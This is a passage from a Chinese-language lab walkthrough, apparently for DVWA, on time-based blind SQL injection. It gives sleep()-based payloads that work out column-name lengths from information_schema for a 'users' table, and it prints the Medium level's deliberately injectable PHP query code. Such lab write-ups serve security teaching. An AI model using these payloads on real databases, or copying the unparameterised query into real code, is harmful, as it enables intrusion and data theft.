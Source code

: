 
说明users表中有8个字段。

接着挨个猜解字段名：


```
1’ and if(length(substr((select column_name from information_schema.columns where table_name= ’users’ limit 0,1),1))=1,sleep(5),1) # 没有延迟

…

1’ and if(length(substr((select column_name from information_schema.columns where table_name= ’users’ limit 0,1),1))=7,sleep(5),1) # 明显延迟
```


说明users表的第一个字段长度为7个字符。

采用二分法即可猜解出各个字段名。

5.猜解数据
同样采用二分法。

### Medium
服务器端核心代码 


```
<?php 

if( isset( $_POST[ 'Submit' ]  ) ) { 
    // Get input 
    $id = $_POST[ 'id' ]; 
    $id = mysql_real_escape_string( $id ); 

    // Check database 
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = $id;"; 
    $result = mysql_query( $getid ); // Removed 'or die' to suppress mysql errors 

    // Get results 
    $num = @mysql_numrows( $result ); // The '@' character suppresses errors 
    if( $num > 0 ) { 
        // Feedback for end user 
        echo '<pre>User ID exists in the database.</pre>'; 
    } 
    else { 
        // Feedback for end user 
        echo '<pre>User ID is MISSING from the database.</pre>'; 
    } 

    //mysql_close(); 
} 

?>
```
